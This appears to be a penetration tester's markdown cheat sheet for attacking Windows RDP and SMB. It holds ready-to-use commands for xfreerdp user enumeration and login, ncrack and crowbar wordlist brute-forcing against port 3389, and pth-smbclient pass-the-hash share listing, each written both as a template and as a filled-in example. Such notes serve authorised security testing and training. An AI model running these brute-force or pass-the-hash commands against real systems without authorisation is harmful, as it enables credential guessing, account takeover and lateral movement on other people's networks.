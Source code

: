 ## System Network

## RDP

### xfreerdp

##### Simple User Enumeration for Windows Target (kerberos based):

`xfreerdp /v:<target_ip> -sec-nla /u:""`

```shell
xfreerdp /v:192.168.0.32 -sec-nla /u:""
```

### Login

`xfreerdp /u:<user> /g:<domain> /p:<pass> /v:<target_ip>`

```shell
xfreerdp /u:administrator /g:grandbussiness /p:bla /v:192.168.1.34
```

#### Wordlist based bruteforce

### NCRACK

`ncrack -vv --user/-U <username/username_wordlist> --pass/-P <password/password_wordlist> <target_ip>:3389`

```shell
ncrack -vv --user user -P wordlist.txt 192.168.0.32:3389
```

### Crowbar

`crowbar -b rdp <-u/-U user/user_wordlist> -c/-C <password/password_wordlist> -s <target_ip>/32 -v`

```shell
crowbar -b rdp -u user -C password_wordlist -s 192.168.0.16/32 -v
```

## Pass the hash

### SMB Pass the hash

#### Tool

[`pth-toolkit`](https://github.com/byt3bl33d3r/pth-toolkit)

### Listing shared folders

`sudo pth-smbclient --user=<user> --pw-nt-hash -m smb3 -L <target_ip> \\\\<target_ip>\\ <hash>`
